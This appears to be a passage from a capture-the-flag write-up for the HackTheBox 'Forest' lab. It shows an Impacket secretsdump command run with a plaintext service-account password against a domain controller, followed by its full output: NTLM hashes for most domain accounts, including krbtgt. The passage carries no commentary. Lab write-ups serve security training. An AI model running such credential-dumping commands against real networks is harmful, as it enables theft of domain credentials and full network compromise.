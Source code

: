 ![NoMoreSecretsLeft](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExdXFiZzlwbmR6cGs3Y2xqYWY5NGk5bDl5NHA5MjlxNGQwY200cms1NiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/xgKMBQdvMF3GpPpPml/giphy.gif)
```bash
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
- **Output**
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:665b84ebfa60399418c8be430aa5704e:::
```